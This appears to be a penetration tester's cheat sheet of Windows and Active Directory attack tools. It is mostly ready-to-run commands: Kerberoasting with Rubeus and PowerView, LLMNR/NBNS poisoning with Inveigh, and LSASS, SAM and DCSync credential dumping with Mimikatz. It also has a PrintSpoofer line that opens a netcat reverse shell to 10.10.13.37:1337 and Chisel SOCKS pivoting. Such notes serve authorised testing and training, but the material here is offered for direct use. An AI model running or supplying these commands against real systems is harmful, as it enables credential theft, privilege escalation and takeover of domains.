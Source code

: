 # tools

### Inveigh.ps1
https://github.com/Kevin-Robertson/Inveigh/blob/master/Inveigh.ps1  
Similar to Responder, for powershell  
PS C:\> Import-Module .\Inveigh.ps1  
PS C:\> (Get-Command Invoke-Inveigh).Parameters  
PS C:\> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y  


### PowerView.ps1
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1  
Replacements for various Windows net*  
PS C:\> import-module .\PowerView.ps1  
PS C:\> Get-DomainPolicy  
PS C:\> Get-DomainUser * -spn | select samaccountname  #to extract TGS tickets  
PS C:\> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\all_tickets.csv -NoTypeInformation  #export to csv  


### nc.exe
https://github.com/int0x33/nc.exe/  
netcat Win binary, for port listening and reverse shell  


### printspoofer
To escalate with SeImpersonatePrivilege & SeAssignPrimaryTokenPrivilege  
PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"  


### Rubeus
https://github.com/GhostPack/Rubeus  
Kerberoasting from windows machine  
PS C:\> .\Rubeus.exe kerberoast /stats  #to gather some stats  
PS C:\> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap  #/nowrap to copy hash easily  
PS C:\> .\Rubeus.exe kerberoast /user:"username" /nowrap  #to test spesific user  
PS C:\> .\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap  #RC4 encryption when requesting a new service ticket  


### SharpHound.exe
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors  
To gather AD data for Bloodhound  


### Snaffler.exe
https://github.com/SnaffCon/Snaffler  
Credential Enumeration  
PS C:\> .\Snaffler.exe  -d <DomainName> -s -v data  
  

### Chisel
https://github.com/jpillora/chisel  
Pre-compiled Chisel for port-forwarding, both linux and windows  
sudo ./chisel server --reverse -v -p 1234 --socks5  
./chisel.exe client -v <YourIP>:1234 R:socks  
  

### Lazagne
https://github.com/AlessandroZ/LaZagne  
checks for passwords in common locations  

  
### Linpeas / Winpeas
Checks for possible priv esc for linux and windows  
  
  
### Mimikatz
https://github.com/ParrotSec/mimikatz  
  
mimikatz # privilege::debug  
mimikatz # sekurlsa::logonpasswords  

#### use lsass.DMP and put results to lsass.txt  
#### lsass.DMP can be acquired with right click lsass.exe and create dump method from task manager in details  
mimikatz # sekurlsa::minidump lsass.DMP  
mimikatz # log lsass.txt  
mimikatz # sekurlsa::logonPasswords  

#### for dcsync abuse  
mimikatz # lsadump::dcsync  
mimikatz # lsadump::dcsync /user:<UserName>  #for spesific user only  


reg save HKLM\SAM sam.h  #to Dump SAM  
reg save HKLM\SYSTEM sys.h  #to Dump SYSTEM  
reg save HKLM\SECURITY sec.h  #to Dump SECURITY  
mimikatz # lsadump::sam sys.h sam.h sec.h  #get hashes from these files with mimikatz  

  
  
  
  
  
  
  
  
  










